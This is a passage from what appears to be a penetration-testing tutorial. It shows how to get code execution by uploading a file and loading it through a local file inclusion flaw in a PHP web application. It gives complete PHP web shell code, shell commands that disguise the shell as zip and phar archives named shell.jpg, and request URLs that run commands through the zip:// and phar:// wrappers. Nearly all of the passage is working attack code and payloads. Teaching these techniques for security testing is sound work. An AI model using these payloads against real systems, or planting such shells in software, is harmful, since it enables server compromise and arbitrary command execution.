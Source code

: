 #### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL.
```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

#### Zip Upload
As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the zip wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named shell.jpg), as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the shell.jpg archive, we can include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded). Finally, we can execute commands as we always do with &cmd=id, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:
```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called shell.jpg. Once we upload it to the web application, we can simply call it with phar:// and provide its URL path, and then specify the phar sub-file with /shell.txt (URL encoded) to get the output of the command we specify with (&cmd=id), as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
